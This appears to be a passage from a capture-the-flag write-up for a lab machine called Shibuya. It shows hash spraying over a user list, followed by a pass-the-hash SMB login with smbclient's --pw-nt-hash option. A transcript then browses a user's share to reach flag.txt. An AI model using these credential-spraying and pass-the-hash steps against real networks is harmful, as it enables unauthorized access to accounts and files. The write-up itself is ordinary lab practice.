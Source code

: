 lets grab full users list and spray with operator hash!!!

its can take time so i already up our user and there is results…

![alt text](../assets/images/Screenshot_2025-02-21_18_41_08.png)

as u remember we have Users shares so we can go and grab flag for Simon.Watson

--pw-nt-hash will work!!!!!

FLAG

```
➜  Shibuya smbclient //shibuya.vl/users -U Simon.Watson --pw-nt-hash

Password for [WORKGROUP\Simon.Watson]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Feb 16 05:42:24 2025
  ..                                DHS        0  Wed Feb 19 07:59:37 2025
  Administrator                       D        0  Sat Feb 15 01:49:31 2025
  All Users                       DHSrn        0  Sat May  8 04:34:03 2021
  Default                           DHR        0  Sat Feb 15 10:49:13 2025
  Default User                    DHSrn        0  Sat May  8 04:34:03 2021
  desktop.ini                       AHS      174  Sat May  8 04:18:31 2021
  nigel.mills                         D        0  Tue Feb 18 14:29:42 2025
  Public                             DR        0  Sat Feb 15 01:49:31 2025
  simon.watson                        D        0  Tue Feb 18 14:36:45 2025

                6126847 blocks of size 4096. 1236226 blocks available
smb: \> cd simon.watson\
smb: \simon.watson\> cd Desktop\
smb: \simon.watson\Desktop\> ls
  .                                  DR        0  Sun Feb 16 05:42:41 2025
  ..                                  D        0  Tue Feb 18 14:36:45 2025
  flag.txt                            A       36  Sun Feb 16 05:43:08 2025

                6126847 blocks of size 4096. 1236722 blocks available
```
## Second Part
lets change password for Simon.Watson cause its not great to use hash afwd